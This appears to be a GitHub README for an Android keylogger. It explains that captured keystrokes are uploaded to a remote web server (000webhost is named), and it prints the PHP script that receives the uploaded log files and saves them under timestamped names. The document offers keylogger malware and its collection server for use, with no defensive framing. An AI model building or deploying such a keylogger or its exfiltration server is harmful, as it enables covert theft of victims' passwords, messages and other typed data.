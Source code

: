 # Android-Keylogger
This is a simple solucion Android's Keylogger, this program is writted in Java and used more componet like a PHP for the creation the log of file in a web server. The web server have been used 000webhost.com but every web server can be used.

this is the php code:

/*<?php
 if (isset($_FILES["uploaded_file"]["name"])) {
$new_name = "Key".date("his").".txt";
$name = $_FILES["uploaded_file"]["name"];
$tmp_name = $_FILES['uploaded_file']['tmp_name'];
$error = $_FILES['uploaded_file']['error'];

if (!empty($name)) {
    $location = './Key/';

 if ( ! is_dir($location)) {
 mkdir($location);
 }

    if  (move_uploaded_file($tmp_name, $location.$name)){
        rename( $location.$name, $location.$new_name);
        echo 'Uploaded';
    }

} else {
    echo 'please choose a file';
}
}
 ?>*/
